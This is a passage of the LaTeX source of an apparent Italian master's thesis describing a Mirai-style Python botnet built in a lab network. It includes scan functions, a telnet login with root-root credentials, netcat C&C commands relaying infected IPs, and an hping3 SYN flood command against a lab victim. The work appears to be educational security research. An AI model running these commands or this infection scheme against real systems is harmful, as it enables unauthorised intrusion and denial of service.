    
\includegraphics[scale=0.4]{UNINA_MSc_Thesis_Project/img/Codice/isAlive.png}
    \caption{isAlive}
    \label{fig:my_label}
\end{figure}

Per la chiusura delle connessioni mezze aperte (Handshake non terminato) viene usato la seguente funzione di reset che invia i flag $ACK=RESET=1$ su TCP
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.7]{UNINA_MSc_Thesis_Project/img/Codice/resetConnection.png}
    \caption{resetConnection}
    \label{fig:my_label}
\end{figure}

Funzione SYN SCAN: creazione del pacchetto con il flag syn alto e in attesa di ricevere, se la porta è aperta, di SYN/ACK.
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.3]{UNINA_MSc_Thesis_Project/img/Codice/SynScan.png}
    \caption{SYN scan}
    \label{fig:my_label}
\end{figure}

Il XMASTree, così come il FIN scan ($FIN=1$), invia un messaggio con i flag $URG=FIN=PSH=1$ (da qui il nome "Albero di natale"). Se non arriva nessuna risposta, allora il nodo è attivo, viceversa, viene ricevuto un pacchetto con flag $RST=1$

\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.4]{UNINA_MSc_Thesis_Project/img/Codice/XMASTree.png}
    \caption{XMASTree Scan}
    \label{fig:my_label}
\end{figure}

Funzione per UDP scan: essa controlla se il pacchetto UDP ricevuto ha come risposta:
\begin{itemize}
    \item Porta chiusa: un pacchetto ICMP tipo 3, codice 3
    \item Pacchetto fIltrato: pacchetto ICMP tipo 3, codice 1,2,9,10,13
    \item Porta aperta: altri casi. In particolare, viene controllato se la risposta ha il "\textit{layer UDP}".
\end{itemize}

\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.4]{UNINA_MSc_Thesis_Project/img/Codice/UDPScanner.png}
    \caption{UDP Scan}
    \label{fig:my_label}
\end{figure}

Funzione di Scan attraverso la libreria nmap con la funzione $nmap.PortScanner()$:

\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{UNINA_MSc_Thesis_Project/img/Codice/nmapScan.png}
    \caption{nmapScan}
    \label{fig:my_label}
\end{figure}


% \lipsum




\setcounter{secnumdepth}{5}



\chapter{Creazione botnet - realizzazione in python}
La creazione del botnet segue lo schema del Mirai Botnet Attack precedentemente descritto, con alcune semplificazioni quali:
\begin{itemize}
    \item \textbf{Linguaggio di programmazione utilizzato:} python, piuttosto che C
    \item \textbf{Messaggio scambiati nella rete:} il comando d'attacco viene inviato dallo stesso \textit{loader} che si occupa di inviare lo script python al bot. 
    \item \textbf{Quantità di bot:} il codice è stato testato con più bot, ma mostrato con due soli bot.
    \item \textbf{Attacco con il singolo tentativo root-root}: non è stato effettuato il tentativo d'accesso con le password appartenenti ad un dizionario, a causa del laboratorio per scopi didattici. 
\end{itemize}
% \lipsum[1][1-3]
\section{Codice}

La funzione della libreria telnetlib utile per effettuare un login telnet è tratta dalla documentazione della libreria stessa: 
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{UNINA_MSc_Thesis_Project/img/Codice/loginTelnet.png}
    \caption{Login Telnet - da documentazione ufficiale}
    \label{fig:my_label}
\end{figure}

In figura sono mostrati i comandi poi richiamati dal Loader/Scanner dopo aver effettuato l'accesso sulla macchina vittima.
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.8]{UNINA_MSc_Thesis_Project/img/Codice/comandiTelnet.png}
    \caption{Comandi Telnet}
    \label{fig:my_label}
\end{figure}

Il ciclo, facente parte del main, si occupa di infettare tutti i nuovi bot, dopo la ricezione del comando di avvio da parte del Command and Control (CnC).
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{UNINA_MSc_Thesis_Project/img/Codice/cicloLoading.png}
    \caption{nmapScan}
    \label{fig:my_label}
\end{figure}

Per poter funzionare, il CnC deve utilizzare due comandi: 

\begin{lstlisting}[language=Python]
nc -l -k -p 1025 >> vulnerableIP.txt
\end{lstlisting}

Che riceve in input l'indirizzo IP infettato, inviato dallo stesso nodo infetto e lo salva sul file $vulnerableIP.txt$

\begin{lstlisting}[language=Python]
tail -F vulnerableIP.txt | nc -w 2 172.16.0.4 4999
\end{lstlisting}

Che si occupa di inviare, ad ogni nuovo aggiornamento del file $vulnerableIP.txt$, il nuovo IP allo scanner alla porta 4999 in ascolto.

\section{Esecuzione dell'attacco}
L'attacco funziona in questo modo: 
\begin{enumerate}
    \item Lo scanner tenta il login con le credenziali root-root
    \item Il login è riuscito: viene inviato, da parte del bot, il proprio IP al CnC.
    \item Il CnC invia l'indirizzo IP del bot da attaccare 
    \item Lo scanner effettua il login, carica lo script python $pyscript.py$ e lo esegue, tramite telnet.
    \item Lo script, piuttosto che lo scanner, cerca nuovi bot, come da punto 1
    \item Trovato un bot vulnerabile, invia l'IP del nuovo bot, tramite il bot infetto, al CnC
    \item Il CnC invia l'IP della macchina vulnerabile allo scanner
\end{enumerate}

\subsection{Docker Security Playground}
In figura è presente lo schema grafico prodotto con Docker Security Playground ottenuto con il motore grafico DSP. 
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.3]{UNINA_MSc_Thesis_Project/img/Esecuzione/DSP Schema.jpg}
    \caption{Schema Docker Security Playground}
    \label{fig:my_label}
\end{figure}
Sono presenti due reti:
\begin{enumerate}
    \item bot network: 172.16.0.1
    \item net2 (rete della vittima): 172.18.0.1
\end{enumerate}




\subsection{Diagramma di sequenza}
Il diagramma descrive lo scenario in cui, una volta tentato l'accesso con le credenziali root-root, vi è il login riuscito e si prosegue al caricamento dello script malevolo sul bot che, a sua volta, inonda di richiesta il server vittima.

\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{UNINA_MSc_Thesis_Project/img/Esecuzione/sequence_attack.png}
    \caption{Diagramma di sequenza dell'attacco}
    \label{fig:my_label}
\end{figure}

\subsection{Risultati Ottenuti}
All'avvio dello script python, la linea di comando si presenta come in figura. In questa fase vi è l'invio dell'indirizzo IP della macchina per permettere di trovare gli IP vivi nella rete.

\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{UNINA_MSc_Thesis_Project/img/Esecuzione/Scanning_start.jpg}
    \caption{Start dello script}
    \label{fig:my_label}
\end{figure}

Il risultato ottenuto si presenta come in figura. Gli IP vivi nella rete sono:

\begin{lstlisting}[language=Python]
172.16.0.12
172.16.0.17
\end{lstlisting}

Ovvero i due IP dei bot all'interno della rete. Il Risultato di output si presenta come in figura: 

\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.8]{UNINA_MSc_Thesis_Project/img/Esecuzione/ipalive.png}
    \caption{ipalive.txt}
    \label{fig:my_label}
\end{figure}

Superata la prima fase, vi è la fase di scelta dello Scanner da utilizzare, che si presenta come in figura. Per la scelta è necessario selezionare il numero e cliccare invio.

\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.5]{UNINA_MSc_Thesis_Project/img/Esecuzione/ScanningChoice.png}
    \caption{Scelta del tipo di scan da effettuare}
    \label{fig:my_label}
\end{figure}

I risultati dello scanner sono come mostrati. Sono presenti gli indirizzi IP e le loro porte risultate apert separate con uno "-".

\begin{lstlisting}[language=Python]
172.16.0.12-23
172.16.0.17-23
\end{lstlisting}

Il risultato ottenuto:

\begin{figure}[H]
    \centering
    
\includegraphics{UNINA_MSc_Thesis_Project/img/Esecuzione/scannerResults.png}
    \caption{Risultati dello scanning}
    \label{fig:my_label}
\end{figure}

In figura anche uno scan, ottenuto col bot, di un computer Windows (tramite scansione con Virtualbox):
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.6]{UNINA_MSc_Thesis_Project/img/Esecuzione/SynScan Windows.jpg}
    \caption{SYN scan su windows}
    \label{fig:my_label}
\end{figure}

In figura sono presenti i due file "IPalive.txt" e "pyscript.py" ricevuti dai due bots.
\begin{figure}[H]
    \centering
    
\includegraphics{UNINA_MSc_Thesis_Project/img/Esecuzione/bot1_received.jpg}
    \caption{I due files ricevuti dal bot 1 durante l'attacco}
    
\includegraphics{UNINA_MSc_Thesis_Project/img/Esecuzione/bot2_received.jpg}
    \caption{I due files ricevuti dal bot 2 durante l'attacco}
    \label{fig:my_label}
\end{figure}

Il comando per effettuare un attacco DoS, da parte di ogni singolo bot è:

\begin{lstlisting}[language=Python]
hping3 -S --flood -V -p 80 172.18.0.4
\end{lstlisting}

hping3 è uno strumento di rete in grado di inviare pacchetti TCP/IP personalizzati per effettuare attacchi informatici.

Dalla man-page linux: 
\begin{lstlisting}[language=Python]
hping3 [ -hvnqVDzZ012WrfxykQbFSRPAUXYjJBuTG ] [ -c count ] [ -i wait ] [ --fast ] [ -I interface ] [ -9 signature ] [ -a host ] [ -t ttl ] [ -N ip id ] [ -H ip protocol ] [ -g fragoff ] [ -m mtu ] [ -o tos ] [ -C icmp type ] [ -K icmp code ] [ -s source port ] [ -p[+][+] dest port ] [ -w tcp window ] [ -O tcp offset ] [ -M tcp sequence number ] [ -L tcp ack ] [ -d data size ] [ -E filename ] [ -e signature ] [ --icmp-ipver version ] [ --icmp-iphlen length ] [ --icmp-iplen length ] [ --icmp-ipid id ] [ --icmp-ipproto protocol ] [ --icmp-cksum checksum ] [ --icmp-ts ] [ --icmp-addr ] [ --tcpexitcode ] [ --tcp-timestamp ] [ --tr-stop ] [ --tr-keep-ttl ] [ --tr-no-rtt ] [ --rand-dest ] [ --rand-source ] [ --beep ] hostname
\end{lstlisting}

Andando a vedere nel dettaglio ogni singola opzione:
\begin{itemize}
    \item -S: Syn flood
    \item flood: Invia pacchetti nel modo più veloce possibile senza mostrare le risposte in ingresso 
    \item -V: modalità verbose 
    \item -p: porta dell'attacco (porta 80)
\end{itemize} 

\subsection{codice dello script $pyscript.py$}
Il codice dello script pyscripy.py è tratto da $Scanning.py$ e si occupa di:
\begin{itemize}
    \item Login telnet
    \item Invio, da parte del bot infetto, dell'IP personale.
\end{itemize}


\include{chapter5}

%\chapter{Conclusion}



\bibliography{bibliography}
\bibliographystyle{plain}

\end{document}